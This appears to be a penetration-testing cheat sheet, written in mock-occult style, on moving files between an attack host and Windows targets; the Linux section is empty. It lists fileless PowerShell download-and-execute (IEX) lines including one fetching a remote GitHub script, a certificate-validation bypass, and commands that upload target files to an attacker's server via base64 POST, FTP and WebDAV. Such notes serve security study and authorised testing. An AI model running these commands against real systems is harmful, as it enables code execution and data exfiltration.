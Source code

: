 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><strong>🪟 Windows</strong></summary>
<details>  
<summary><strong>📥 Downloads</strong></summary>
<details>
<summary><strong>PowerShell Downloads</strong></summary>  
<details> 
<summary><strong>PowerShell DownloadFile Method</strong></summary>

Sync  
```powershell
(New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
```
Async  
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
```

</details>

<details>
<summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

Default  
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
```

Pipeline input  
```powershell
(New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
```
</details>

<details>
<summary><strong>PowerShell Invoke-WebRequest</strong></summary>

Default  
```powershell
Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
```

ByPass Internet Explorer Error  
```powershell
Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
```

ByPass SSL/TLS Error  
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
# Command to download the file
```
</details>
</details>

<details>
<summary><strong>SMB Downloads</strong></summary>

**Default**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
Download using CMD in Windows
```cmd
copy \\<IP>\share\<FILE>
```

**Using credentialts**

Create the SMB Server in Linux
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```
Mount the SMB Server in Linux
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
copy n:\<FILE>
```

</details>

<details>
<summary><strong>FTP Downloads</strong></summary>  

Setting up a Python3 FTP Server in Linux
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user ftpuser --password 'ftppass'
```

**Option 1: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('ftpuser', 'ftppass')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Option 2: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
<details>  
<summary><strong>📥 Uploads</strong></summary>  
<details>  
<summary><strong>PowerShell Uploads</strong></summary>  
<details>  
<summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  

1. Encode File Using PowerShell 
```powershell
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

2. Decode Base64 String in Linux
```bash
echo <BASE64 STRING> | base64 -d > <FILE>
md5sum <FILE>
```
</details>
<details>  
<summary><strong>PowerShell Web Uploads</strong></summary>  

1. Installing a Configured WebServer with Upload in Linux
```bash
pip3 install uploadserver
python3 -m uploadserver
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
```

</details>
<details>  
<summary><strong>PowerShell Base64 Web Upload</strong></summary>  

1. We use Netcat to listen in on a port we specify and send the file as a POST request.
```bash
nc -lvnp <PORT>
```
2. PowerShell Script to Upload a File to Python Upload Server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
```
3. We copy the output and use the base64 decode function to convert the base64 string into a file.
```bash
echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
```
</details>
</details>
<details> 
<summary><strong>SMB Uploads</strong></summary>  

1. Installing WebDav Python modules in Linux
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```
2. Uploading Files using SMB in Windows
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
<details> 
<summary><strong>FTP Uploads</strong></summary>  

**1. Start our FTP Server in Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
**2. Upload the file in Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```
Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
Once in FTP...
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><strong>🐧 Linux</strong></summary>
</details>

---
